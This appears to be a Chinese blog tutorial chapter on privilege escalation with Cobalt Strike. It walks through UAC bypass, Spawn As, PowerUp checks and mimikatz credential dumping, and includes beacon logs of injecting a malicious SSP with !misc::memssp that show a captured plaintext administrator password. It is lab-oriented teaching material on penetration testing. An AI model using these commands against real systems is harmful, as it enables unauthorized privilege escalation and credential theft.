






# Cobalt Strike — 0x05 提权

## 0x05 提权

## 1、用户账户控制

自 Windows vista 开始，Windows 系统引进了用户账户控制机制，即 UAC`User Account Control`机制，UAC 机制在 Win 7中得到了完善。UAC 与 UNIX 中的 sudo 工作机制十分相似，平时用户以普通权限工作，当用户需要执行特权操作时，系统会询问他们是否要提升权限。

此时系统用户可分为以下三种等级：

高：管理员权限

中：一般用户权限

低：受限制的权限

使用`whoami /groups`命令可以看到当前用户所在的组以及权限，使用`net localgroup administrators`可以查看当前在管理员组里的用户名。

## 2、提权操作

当某些操作需要管理员权限，而当前用户权限只有一般用户权限时，就需要提权操作了。

在 CS 中有以下几种提权操作：

`bypassuac`：将本地中级管理员权限提升至本地高级管理员权限，适用于Win 7 及以上的系统。

`elevate`：将任意用户的权限提升至系统权限，适用于2018年11月更新之前的 Win 7 和 Win 10 系统。

`getsystem`：将本地高级管理员权限提升至系统权限。

`runas`：使用其他用户的凭证来以其他用户身份运行一个命令，该命令不会返回任何输出。

`spawnas`：使用其他用户的凭证来以其他用户身份派生一个会话，这个命令派生一个临时的进程并将 payload stage 注入进那个进程。

### Spawn As

首先，右击待提权的会话，选择`Access --> Spawn As`，输入目标系统用户身份信息，其中域信息填写一个“点”代表本地用户，监听器这里选择的 SMB 监听器，之后点击运行就能看到对应的用户上线了。



### Bypass UAC

Bypass UAC 有两个步骤，分别是：

1、利用 UAC 漏洞来获取一个特权文件副本

2、使用 DLL 劫持进行代码执行

首先使用`shell whoami /groups`查看当前上线主机用户的所属组及 UAC 等级



通过返回信息可以看出，当前用户为管理员权限，UAC 等级为中，根据上一节中关于的介绍，此时可以使用`bypassuac`进行提权。

首先，右击会话，选择`Access --> Elevate`，这里选择一个 SMB Beacon，Exploit 选择`uac-token-duplication`，最后 Launch 即可。



待 Beacon Check in 后，当前用户 UAC 为高权限的会话便会上线了。



## 3、PowerUp

PowerUp 所做的事是寻找可能存在弱点的地方，从而帮助提权。

利用 PowerUp 进行提权需要首先导入 ps1 文件`powershell-import PowerUp.ps1`，再执行`powershell Invoke-AllChecks`命令，使用 PowerUp 脚本可以快速的帮助我们发现系统弱点，从而实现提权的目的。

> 其中`PowerUp.ps1`文件可从这里下载：<https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc>

**PowerUp 的使用**

执行以下命令：将 ps1 文件上传到目标主机，并执行所有弱点检查。

```plain
powershell-import PowerUp.ps1
powershell invoke-allchecks
```

详细运行过程：

```plain
beacon> powershell-import PowerUp.ps1
[*] Tasked beacon to import: PowerUp.ps1
[+] host called home, sent: 275084 bytes

beacon> powershell invoke-allchecks
[*] Tasked beacon to run: invoke-allchecks
[+] host called home, sent: 313 bytes
[+] received output:
[*] Running Invoke-AllChecks
[+] Current user already has local administrative privileges!
[*] Checking for unquoted service paths...

[*] Checking service executable and argument permissions...
[+] received output:
ServiceName                     : AeLookupSvc
Path                            : C:\Windows\system32\svchost.exe -k netsvcs
ModifiableFile                  : C:\Windows\system32
ModifiableFilePermissions       : GenericAll
ModifiableFileIdentityReference : BUILTIN\Administrators
StartName                       : localSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AeLookupSvc'
CanRestart                      : True
……内容太多，此处省略……

[*] Checking service permissions...
[+] received output:
ServiceName   : AeLookupSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs
StartName     : localSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AeLookupSvc'
CanRestart    : True
……内容太多，此处省略……

[*] Checking %PATH% for potentially hijackable DLL locations...
[+] received output:
Permissions       : GenericAll
ModifiablePath    : C:\Windows\system32\WindowsPowerShell\v1.0\
IdentityReference : BUILTIN\Administrators
%PATH%            : %SystemRoot%\system32\WindowsPowerShell\v1.0\
AbuseFunction     : Write-HijackDll -DllPath 'C:\Windows\system32\WindowsPowerS
                    hell\v1.0\\wlbsctrl.dll'
……内容太多，此处省略……

[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...

[*] Checking for modifidable registry autoruns and configs...
[+] received output:
Key            : HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\VMware Use
                 r Process
Path           : "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
ModifiableFile : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files
                 \VMware\VMware Tools\vmtoolsd.exe; IdentityReference=BUILTIN\A
                 dministrators}
……内容太多，此处省略……

[*] Checking for modifiable schtask files/configs...
[+] received output:
TaskName     : GoogleUpdateTaskMachineCore
TaskFilePath : @{Permissions=System.Object[]; ModifiablePath=C:\Program Files (
               x86)\Google\Update\GoogleUpdate.exe; IdentityReference=BUILTIN\A
               dministrators}
TaskTrigger  : <Triggers xmlns="http://schemas.microsoft.com/windows/2004/02/mi
               t/task"><LogonTrigger><Enabled>true</Enabled></LogonTrigger><Cal
               endarTrigger><StartBoundary>2020-04-11T21:47:44</StartBoundary><
               ScheduleByDay><DaysInterval>1</DaysInterval></ScheduleByDay></Ca
               lendarTrigger></Triggers>

……内容太多，此处省略……

[*] Checking for unattended install files...
UnattendPath : C:\Windows\Panther\Unattend.xml

[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...
[*] Checking for plaintext passwords in McAfee SiteList.xml files....
[+] received output:
[*] Checking for cached Group Policy Preferences .xml files....
[+] received output:
```

如果在自己的靶机上发现导入ps1文件失败，这可能是因为系统不允许执行不信任的脚本文件导致的。

这时为了复现成功可以来到靶机下，以管理员权限打开 Powershell，运行`set-ExecutionPolicy RemoteSigned`，输入`Y`回车，此时系统便能导入` PowerUp.ps1`文件了。

```plain
PS C:\WINDOWS\system32> set-ExecutionPolicy RemoteSigned
执行策略更改
执行策略可帮助你防止执行不信任的脚本。更改执行策略可能会产生安全风险，如 https:/go.microsoft.com/fwlink/?LinkID=135170
中的 about_Execution_Policies 帮助主题所述。是否要更改执行策略?
[Y] 是(Y)  [A] 全是(A)  [N] 否(N)  [L] 全否(L)  [S] 暂停(S)  [?] 帮助 (默认值为“N”): Y
PS C:\WINDOWS\system32>
```

在运行`Invoke-AllChecks`后，便会列出当前系统中可被提权的弱点之处，之后再执行检查结果中`AbuseFunction`下的命令便能开始提权操作了。

但是我在自己本地环境中并未复现成功，执行`AbuseFunction`后的命令只能创建一个与当前登录用户相同权限的账户，没能达到提权的目的。

参考网上相关文章后也未果，这也是为什么这一节拖更这么久的原因，因此 PowerUp 的复现过程暂时就没法记录了。

如果正在看本篇文章的你有过使用 PowerUp 提权成功的经历，欢迎留言分享。

## 4、凭证和哈希获取

想要获取凭证信息，可以在管理员权限的会话处右击选择`Access --> Dump Hashes`，或者在控制台中使用`hashdump`命令。



想获取当前用户的密码，可以运行`mimikatz`，右击管理员权限会话选择`Access --> Run Mimikatz`，或在控制台运行`logonpasswords`命令。



在`View --> Credentials`下可以查看到`hashdump`与`mimikatz`获取的数据。

## 5、Beacon 中的 Mimikatz

在 Beacon 中集成了 mimikatz ，mimikatz 执行命令有三种形式：

* `mimikatz [module::command] <args>`运行 mimikatz 命令
* `mimikatz [!module::command] <args>`强制提升到 SYSTEM 权限再运行命令，因为一些命令只有在 SYSTEM 身份下才能被运行。
* `mimikatz [@module::command] <args>`使用当前 Beacon 的访问令牌运行 mimikatz 命令

下面是一些`mimikatz`命令。

* `!lsadump::cache`获取缓存凭证，默认情况下 Windows 会缓存最近10个密码哈希
* `!lsadump::sam`获取本地账户密码哈希，该命令与 hashdump 比较类似
* `misc::cmd`如果注册表中禁用了 CMD ，就重新启用它
* `!misc::memssp`注入恶意的 Windows SSP 来记录本地身份验证凭据，这个凭证存储在“C:\windows\system32\mimilsa.log”中
* `misc::skeleton`该命令仅限域内使用。该命令会给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用,其原理是对 lsass.exe 进行注入，重启后会失效。
* `process::suspend [pid]`挂起某个进程，但是不结束它
* `process::resume [pid]`恢复挂起的进程

以上的这些只是`mimikatz`能做事情的一小部分，下面看看`!misc::memssp`的使用。

```plain
mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
```

详细运行过程：

首先运行`mimikatz !misc::memssp`

```plain
beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
```

接下来来到`C:\Windows\system32`目录

```plain
beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes

beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84

 C:\Windows\system32 的目录

2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
```

可以看到是存在`mimilsa.log`文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。

查看`mimilsa.log`文件内容。

```plain
beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \	
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator	Password123!
```

成功获取到当前登录用户的明文密码。
